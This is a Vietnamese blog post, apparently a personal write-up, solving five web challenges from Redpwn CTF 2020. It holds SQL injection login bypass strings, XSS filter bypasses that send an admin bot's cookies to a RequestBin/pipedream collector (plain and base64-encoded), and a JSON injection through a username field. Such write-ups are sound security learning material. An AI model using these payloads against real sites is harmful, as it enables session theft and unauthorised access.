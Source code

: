 ```yaml
---
layout: post
title: Redpwn CTF 2020 - Web
subtitle: Web Security - CTF
tags: [ctf, web]
image: /img/redpwn.png
share-img: /img/redpwn.png
---
```


Nhân ngày đẹp trời đồ án mọi thứ xong xuôi vào chơi [ctf](https://ctftime.org/) thì thấy giải này nên apply chơi .. và nghe dân tình bảo giải này cực kì hay và chất lượng `well-made challenges` !


# Inspector General
<details>
    <summary>Challenge Description</summary>
    My friend made a new webpage, can you find a flag?
</details>

Chall nhìn qua thì nghe có vẻ phức tạp nhưng chỉ cần view source là thấy `flag`.
Đi đến `view-source:https://redpwn.net/` sẽ thấy flag ở `dòng 7`.

![Inspector-flag](../img/26062020/1.png)


***

<details>
  <summary>FLAG</summary>
  
  flag{1nspector_g3n3ral_at_w0rk}
</details>
 
***

# Login

<details>
  <summary>Challenge Description</summary>
  
  I made a cool login page. I bet you can't get in!
<br />
  Site: login.2020.redpwnc.tf
</details>

Nhìn sơ qua có vẻ như là chèn `simple SQLi`, nên đã thử `user: admin & pwd: 1' or '1'='1` hoặc `user: admin'; /*` sẽ alert ra flag.

<!-- ![Login-flag](../img/26062020/2.png) -->
<img src="/img/26062020/2.png" alt="Login flag" align="center"/>


***

<details>
  <summary>FLAG</summary>
  
  flag{0bl1g4t0ry_5ql1}
</details>

***

# Static-Pastebin

<details>
  <summary>Challenge Description</summary>
  
 I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it here

  Site: static-pastebin.2020.redpwnc.tf

  Note: The site is entirely static. Dirbuster will not be useful in solving it.
</details>

Chall này có thể hiểu theo cách đơn giản nhất là thông qua 2 sites của chall thì 1 site sẽ tạo URL và site còn lại upload URL kèm XSS đó lên và Bot Admin sẽ truy cập thông qua URL đó trả về cookie kèm theo flag. Chall này được gọi là Reflected-XSS.

![Static-pastebin-site-1](../img/26062020/3.png)

Cứ mỗi khi mình tạo đoạn text sẽ có vài kí tự bị filter và hiển thị không như ý mình muốn, nên sẽ xem qua code js xem nó handles như thế nào...

```javascript
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.getElementById('paste').innerHTML = clean(input);
}

function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```

Chúng ta có thể thấy khi create đoạn text lên site 1 sẽ bị decode bởi `atob()` và sau đó đi vào `clean()` nó sẽ không cho phép tạo ra đoạn text nếu như cú pháp từng dấu ngoặc không như ý nên sẽ không thực thi.. như vậy lúc này mình sẽ cố bypass qua đoạn này, lúc đầu mình nghĩ đến `HTML Entities` nhưng nó sẽ không thực thi được nên 1 lúc sau bypass được

```
><img src=1 href=1 onerror="javascript:document.location='https://[RequestBinURL]?cookie='+document.cookie"></img>
```

`RequestBin` là công cụ như `container request` cung cấp cơ chế trong đó server-side sẽ gọi đến client-side khi bắt một sự kiện nhất định nào đó.

Mình đến site thứ 2 và upload đoạn đã decode kèm theo XSS ở site 1 vào

```
https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPTEgaHJlZj0xIG9uZXJyb3I9ImphdmFzY3JpcHQ6ZG9jdW1lbnQubG9jYXRpb249J2h0dHBzOi8vZW5rbms4ZnppbGtscC54LnBpcGVkcmVhbS5uZXQ/Y29va2llPScrZG9jdW1lbnQuY29va2llIj48L2ltZz4=
```

Lúc này khi Admin Bot ghé thăm site vừa upload, đoạn mã XSS sẽ lấy cắp cookie của Admin Bot và gửi đến chính server của mình ở đây là [RequestBin](https://requestbin.com/) lúc này mình sẽ nhận lại đoạn request như thế này và kèm theo flag:

<!-- ![Static-pastebin-flag](../img/26062020/4.png) -->
<img src="/img/26062020/4.png" alt="Static pastebin flag" align="center"/>


***

<details>
  <summary>FLAG</summary>
  
  flag{54n1t1z4t10n_k1nd4_h4rd}
</details>


***

# panda-facts

<details>
  <summary>Challenge Description</summary>
  
I just found a hate group targeting my favorite animal. Can you try and find their secrets? We gotta take them down!

Site: panda-facts.2020.redpwnc.tf
Download: `index.js`
</details>

Thật ra ngay từ đầu vẫn chưa tìm ra hướng giải chỉ cắm cúi ngồi suy nghĩ về mấy function trong file index.js kia và có biết chút về NodeJS nhưng vẫn chưa mường tượng ra điều cần phải làm, nên đã hỏi thử tác giả thì hint rằng `Try to inject it`. Oh đến đây mới ngắm nghía lại đặc biệt là function này..

```javascript
async function generateToken(username) {
    const algorithm = 'aes-192-cbc'; 
    const key = Buffer.from(process.env.KEY, 'hex'); 
    // Predictable IV doesn't matter here
    const iv = Buffer.alloc(16, 0);

    const cipher = crypto.createCipheriv(algorithm, key, iv);

    const token = `{"integrity":"${INTEGRITY}","member":0,"username":"${username}"}`

    let encrypted = '';
    encrypted += cipher.update(token, 'utf8', 'base64');
    encrypted += cipher.final('base64');
    return encrypted;
}
```

Thật sự để ý vào structure để tạo token không phải `token.username = username` mà là theo form nhất định như này..

```javascript
const token = `{"integrity":"${INTEGRITY}","member":0,"username":"${username}"}`
```

Chỉ cần filter lại cho member khác 0, mình chỉ cần set lại username là `shinta","member":1,"user":"shinta` và truy cập vào `/api/flag`..

<!-- ```
{
  "success": true,
  "flag": "flag{1_c4nt_f1nd_4_g00d_p4nd4_pun}"
}
``` -->
<img src="/img/26062020/5.png" alt="Panda facts flag" align="center"/>


***

<details>
  <summary>FLAG</summary>
  
  flag{1_c4nt_f1nd_4_g00d_p4nd4_pun}
</details>

***

# static-static-hosting

<details>
  <summary>Challenge Description</summary>
  
Seeing that my last website was a success, I made a version where instead of storing text, you can make your own custom websites! If you make something cool, send it to me here

Site: static-static-hosting.2020.redpwnc.tf

Note: The site is entirely static. Dirbuster will not be useful in solving it.
</details>

Phần này có vẻ tác giả upgrade lên 1 tí thay vì submit text thì được submit thẳng các tags HTML, vì thế mình đoán sẽ filter `script` nên cứ submit rồi xem thử. Code của file `index.js`:

```javascript
function sanitize(element) {
    const attributes = element.getAttributeNames();
    for (let i = 0; i < attributes.length; i++) {
        // Let people add images and styles
        if (!['src', 'width', 'height', 'alt', 'class'].includes(attributes[i])) {
            element.removeAttribute(attributes[i]);
        }
    }

    const children = element.children;
    for (let i = 0; i < children.length; i++) {
        if (children[i].nodeName === 'SCRIPT') {
            element.removeChild(children[i]);
            i --;
        } else {
            sanitize(children[i]);
        }
    }
}
```

Vậy mình thử dùng `iframe` thẻ này nhúng HTML, text, picture, video hay link vào trong khung của chính mình.

```
<iframe src="javascript:window.location.href='https://[RequestBinURL].m.pipedream.net
?='+document.cookie">
```
Sau đó upcode sang site thứ 2 gửi cho Admin-bot

```
https://static-static-hosting.2020.redpwnc.tf/site/#PGlmcmFtZSBzcmM9ImphdmFzY3JpcHQ6d2luZG93LmxvY2F0aW9uLmhyZWY9J2h0dHBzOi8vZDRkZTE1N2Q0NTRmZGY2OTM1ZWQwOTU0YjgyNmE0ZjUubS5waXBlZHJlYW0ubmV0Cj8nK2RvY3VtZW50LmNvb2tpZSI+
```
Hên quá test thử phát 1 ra liền, đỡ tốn công hihi

<img src="/img/26062020/6.png" alt="Static-static-bin" align="center"/>

***

<details>
  <summary>FLAG</summary>
  
  flag{wh0_n33d5_d0mpur1fy}
</details>


***

Mấy chal sau theo hổng kịp, chờ ngồi đọc write-up tìm hiểu thêm thôi :waiting:


![Alt Text](https://media.giphy.com/media/LycfkVG4L6x0Y/giphy.gif)https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExZWYwNGdnanRwcHo1cWxxM3pkam5zbGtpbm91MGlwb2czZGNxemRweCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/V2JgPXdvuCKrDo9uem/giphy.gif
